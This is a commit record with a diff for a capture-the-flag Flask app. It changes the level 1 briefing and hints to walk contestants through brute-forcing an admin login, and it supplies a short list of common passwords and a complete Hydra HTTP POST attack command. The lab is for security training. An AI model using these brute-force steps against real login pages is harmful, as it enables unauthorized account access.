

Before and after one commit to DarthMayan/NexusCorp_CTF, a Flask app: page /level/1 in a window 1280 px wide. Shown: the top 991 px of the page at 96% size. Run offline with Flask 3, Linux system fonts and the light colour scheme; a user stored in the database is signed in; data comes from the database, SQL or seed files in the repository.

Commit message:
Update: level 1 briefing and hints for custom wordlist approach
Instruct contestants to build a short wordlist instead of using
rockyou.txt directly, since the tunnel has connection rate limits.
Updated hints to match the correct Hydra command with S= success condition.

```diff
--- a/app/main.py
+++ b/app/main.py
@@ -1078,9 +1078,9 @@ def level6_api(endpoint):
 
 HINTS = {
     1: [
-        "The employee portal has very common credentials. Try the classics.",
-        "Hydra can brute-force HTTP POST forms. Check the form field names.",
-        "hydra -l admin -P /usr/share/wordlists/rockyou.txt <target> http-post-form '...'",
+        "The employee portal has very common credentials. Think: what would a lazy sysadmin use?",
+        "Use Hydra with a SHORT custom wordlist — long wordlists hit connection limits. Create one with the 10 most common passwords.",
+        "hydra -l admin -P wordlist.txt TARGET https-post-form '/level/1/login:username=^USER^&password=^PASS^:S=Administrator' -V -t 1 -f",
     ],
     2: [
         "The search field doesn't sanitize input. Classic SQL injection territory.",
--- a/app/templates/levels/level1.html
+++ b/app/templates/levels/level1.html
@@ -15,9 +15,32 @@
     </p>
     <p>
         The login endpoint accepts POST requests at <code>/level/1/login</code> with fields
-        <code>username</code> and <code>password</code>. Failed logins return HTTP 401.
-        Successful admin login reveals the flag.
+        <code>username</code> and <code>password</code>. Successful admin login reveals the flag.
     </p>
+    <p>
+        Use <strong>Hydra</strong> to brute-force the login. Since the target runs behind a tunnel,
+        create a <strong>short custom wordlist</strong> with the most common weak passwords —
+        wordlists with millions of entries will hit connection limits before finding the answer.
+    </p>
+    <div style="margin-top:0.8rem; padding:0.8rem; background:rgba(0,240,255,0.05); border:1px solid var(--nx-accent-dim); border-radius:var(--nx-radius); font-family:var(--nx-font-mono); font-size:0.78rem;">
+        <span style="color:var(--nx-accent);"># Step 1 — Create your wordlist</span><br>
+        cat &gt; wordlist.txt &lt;&lt; 'EOF'<br>
+        123456<br>
+        password<br>
+        12345<br>
+        qwerty<br>
+        letmein<br>
+        admin<br>
+        welcome<br>
+        monkey<br>
+        dragon<br>
+        master<br>
+        EOF<br><br>
+        <span style="color:var(--nx-accent);"># Step 2 — Launch the attack</span><br>
+        hydra -l admin -P wordlist.txt TARGET https-post-form<br>
+        &nbsp;&nbsp;"/level/1/login:username=^USER^&amp;password=^PASS^:S=Administrator"<br>
+        &nbsp;&nbsp;-V -t 1 -f
+    </div>
 </div>
 
 <!-- The actual vulnerable login form -->
```
